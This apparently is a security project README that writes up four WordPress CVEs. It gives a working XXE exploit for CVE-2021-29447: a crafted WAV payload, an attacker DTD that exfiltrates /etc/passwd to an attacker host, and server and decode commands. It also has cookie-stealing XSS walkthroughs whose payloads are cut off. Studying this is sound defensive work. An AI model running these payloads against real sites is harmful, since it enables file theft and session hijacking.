





# Project

# [CVE-2021-29447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447)

## Introduction

This vulnerability was discovered by the researchers of SonarSource. This vulnerability can be exploited only when WordPress Version 5.6.0 to 5.7.0 runs on PHP 8 and the attacking user has permission to upload media files. This vulnerability was fixed in the 5.7.1 version.

There is the XXE(External XML Entity) vulnerability in this CVE which takes advantage of one of the libraries of WordPress that parse information and metadata of an audio file uploaded in the Media Library of the web application server.

- What is an XXE?
    
    XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
    
    In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.
    

## Impact

- **Arbitrary File Disclosure**: The contents of any file on the host’s file system could be retrieved, e.g. *wp-config.php* which contains sensitive data such as database credentials.
- **Server-Side Request Forgery (SSRF)**: HTTP requests could be made on behalf of the WordPress installation. Depending on the environment, this can have a serious impact.

## Detail explanation

ID3 Library in WordPress parses info of an audio file that is uploaded to the Media Library, which had XXE vulnerability. WAV has metadata, and one of the usable metadata is called ***iXML***. Now we can use that place in the WAV file where we can add XML data to exploit this vulnerability.

XML makes us able to define entities that can be reused inside the document, for example:

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<foo><bar>&ext;</bar><foo>
```

By this way, XML is able to parse this given internal file and show the content. But it looks like Blind XXE because we won’t be able to get the content of the file. XML also uses Document Type Definition(DTD) file to define the structure of the XML itself. This feature can help us to give external reference of DTD from our own server that is hosting DTD files for XML use.

```bash
<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://example.com/evil.dtd'>%remote;%init;%trick;]>
```

Now, this XML file will request for DTD file where we can define to read the internal files of the victim server and give the output to our own server.

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://example.com/?p=%file;'>" >
```

`php://filter/read=convert.base64-encode/resource=/etc/passwd`. The PHP wrapper `php://` makes us able to access various I/O streams and `php://filter` is a *kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening*. Thanks to it, we can convert to base64 the content of a file (in the example above `/etc/passwd`) and assign the result to the `%file` entity. Now we can send to our server the content of `%file` and exfiltrate it.

Now we have to create a Wav file along with an XML malicious payload. We can check out the list of [file signatures from Wikipedia.](https://en.wikipedia.org/wiki/List_of_file_signatures)



After researching online, found the missing bytes for the wave file and simply created this Wav payload.

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<AttackerIP>:<PORT>/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

## Proof Of Concept (POC)

Log in as a low-privileged user who has the file upload ability/permission to exploit this vulnerability.



WordPress version 5.7.0


Permission of File Upload

Now let’s create a wave file having XML metadata that requests a DTD file from an attacker.


```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<AttackerIP>:<PORT>/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

We have to create a DTD file to ask for the server’s file data.


```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://IP:PORT/?p=%file;'>" >
```

We use these encodings in order to get the non-executed & compressed file view, as well as no data, that should be missed during any type of execution. We are encoding using the Zlib function and base64 encoding.

Start your attacking server that will serve the evil.dtd file.

```bash
php -S 0.0.0.0 <PORT>
```


Now to decode the intercepted message, we have to use the same functions in order to get the original message. 


```php
<?php echo zlib_decode(base64_decode(‘base64InterceptedText’)); ?>
```


Successfully accessed the internal file of the server.

Here, is the video for the vulnarability

[](Videos/CVE-2021-29447.mp4)


# [CVE-2019-17674](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674)

## Introduction

This vulnerability was discovered by an individual on HackerOne. He found the stored/persistent XSS vulnerability in the customizer navigation panel of the social media link tab. Only authenticated users with the access to customizer can exploit this vulnerability.

- What is Stored/Persistent XSS?
    
    XSS is **an attack technique that injects malicious code into vulnerable web applications**. Unlike other attacks, this technique does not target the web server itself, but the user's browser. Stored XSS is a type of XSS that stores malicious code on the application server.
    

## Impact

- **Stealing Sensitive Information**: Stored XSS can help us to steal sensitive information from the browser of the user that visits a malicious website containing stored XSS.
- **Cross-Site Request Forgery (CSRF)**: Stored XSS also allows an attacker to induce a victim user to perform actions that they do not intend to which means a CSRF attack.
- **Phishing Attacks**: Stored XSS also redirects the victim to another website to make phishing attacks or can do defacement of the website.

## Detail explanation

To exploit this stored XSS vulnerability, an attacker should have the authenticated user that should have the access to customizer which makes this attack less risky due to the level of access we need to perform this attack. Still, this vulnerability could affect many visitors too, if in case an attacker got access to the customizer and can be able to attack the visitors of that website.

## Proof Of Concept (POC)

First, we need an authenticated user account to have access to the customizer.



WordPress Version < 5.2.4 & customizer access

Now navigate to Appearance → Customize → Menus → Create New Menu → Select Social Links Menu → Add Item → Create Custom Link



The Navigation Label input box isn’t sanitizing user input. You can even use a simple XSS payload without obfuscation.


Now we can use any attack vector to exploit this vulnerability.  [XSS payloads](http://www.xss-payloads.com/) have a great list of attack payloads.

In the video, I demonstrated a simple cookie-stealing attack. using the below payload

```bash
<script> document.write('
```

# [CVE-2019-16221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16221)

## Introduction

The vulnerability was found by an individual in the dashboard of WordPress.

- What is Reflected XSS?
    
    Reflected XSS attacks, also known as non-persistent attacks, **occur when a malicious script is reflected off of a web application to the victim's browser**. The script is activated through a link, which sends a request to a website with a vulnerability that enables the execution of malicious scripts.
    

## Impact

- **Sensitive information disclosure**: It can be used to obtain the user’s session cookies or any data related to the victim's browser.
- **Phishing Attack**: It can be used as a phishing attack by redirecting the user to a malicious form submission page to steal credentials.

## Detail explanation

I researched this CVE and didn’t find clear information about this vulnerability so I assess the same WordPress version for the vulnerability and found Stored XSS in the post section of the dashboard.

## Proof Of Concept (POC)

WordPress Version should be below 5.2.3


Go to your WordPress DashBoard’s Pages Section.


Inject malicious JavaScript Payload.

```bash
<script> document.write('
```

Now login with the super admin account.


Intercept the cookie.


# [CVE-2019-17672](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672)

## Introduction

The vulnerability was found by an individual in the dashboard of WordPress.

- What is Stored XSS?
    
    XSS(Cross-Site Scripting) is an attack where we can inject javascript code in the web application to use that web app for malicious purposes. Stored/Persistent XSS is stored in the database and whenever that webpage is visited by anyone that XSS payload from the database is injected into their webpage.
    

## Impact

- X**SS(Cross-Site Scripting) is an attack where** we can inject javascript code in the web application to use that web app for malicious purposes. Stored/Persistent XSS is stored in the database and whenever that webpage is visited by anyone that XSS payload from the database is injected into their webpage.

## Detail explanation

I researched this CVE and didn’t find clear information about this vulnerability so I assess the same WordPress version for the vulnerability and found Stored XSS in the comment section.

## Proof Of Concept (POC)

First, check your WordPress version should be below 5.2.4


Now Go to the Comments Section of the WordPress.


Now we can use javascript code to steal the cookie.

```bash
<script> document.write('
```

[def]: Videos/CVE-2021-29447.mp4
[def2]: https://i.imgur.com/vKb2F1B.png
[def3]: Videos/CVE-2021-29447.mp4